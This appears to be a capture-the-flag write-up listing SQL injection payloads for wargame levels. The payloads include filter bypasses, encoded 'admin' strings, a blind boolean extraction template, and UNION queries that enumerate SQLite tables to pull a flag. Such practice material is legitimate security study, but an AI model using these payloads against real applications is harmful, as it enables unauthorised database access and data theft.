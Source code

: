 ```php
```

payload : id=1'%23\&pw=%0Aunion/\*\*/select 0x6669727374, 0x7365636f6e64''%23

## CHUPACABRA

payload : ' or%20%20 id='admin'-- -



## MANTICORE

payload : id='\&pw=or id = char(0x61,0x64,0x6d,0x69,0x6e)-- -

## BANSHEE(boolean)

payload: 'or 1=1 and substr({pw},1,{i}) = '{j}' and id ='admin'-- -

## Poltergeist(sqlite3)

table:&#x20;

' UNION select tbl\_name from sqlite\_master where tbl\_name like 'flag\_%'--

<figure><img src=".gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

column:

' union SELECT sql FROM sqlite\_master WHERE tbl\_name = 'flag\_70c81d99' -- -

<figure><img src=".gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

flag

' union SELECT flag\_0876285c FROM flag\_70c81d99 -- -

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>



